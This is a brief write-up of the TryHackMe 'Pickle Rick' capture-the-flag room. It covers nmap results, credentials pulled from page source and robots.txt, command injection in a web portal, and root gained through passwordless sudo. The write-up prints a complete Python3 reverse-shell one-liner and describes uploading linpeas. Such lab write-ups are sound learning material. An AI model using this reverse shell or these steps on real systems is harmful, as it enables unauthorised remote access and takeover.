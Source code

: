                                         #######################
                                        #####  TryHackMe  #####
                                        ##### Pickle Rick #####
                                        #####  By 0xRar   #####
                                        #######################


## Nmap result :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:4e:a3:4e:5c:f2:0f:6e:8d:2e:a8:0c:3c:9f:d4:ee (RSA)
|   256 95:91:a8:d8:ab:e4:0e:a4:8d:b8:43:27:01:58:b2:c2 (ECDSA)
|_  256 b6:f3:eb:2d:f1:c2:bc:b3:6b:c8:da:50:49:ac:27:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal  Creds :
```
Got the username from the source code
Username: R1ckRul3s

Got the password from robots.txt
Password: Wubbalubbadubdub
```
## Portal (LOGIN)
```
Used gobuster dir to get the login
MACHINE_IP/portal.php
```

## How did i get in ?
```
The portal page or the command panel was infected with command injection so
i tried to get a rev shell with nc but didint work so i tried python2 didint work
so i tried python3 and it worked, i uploaded linpeas for more information and found out that all users has ((NOPASSWD))
i got root using the command (sudo bash).  
```
## python3 reverse shell :
`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`

## root :
`
sudo bash
`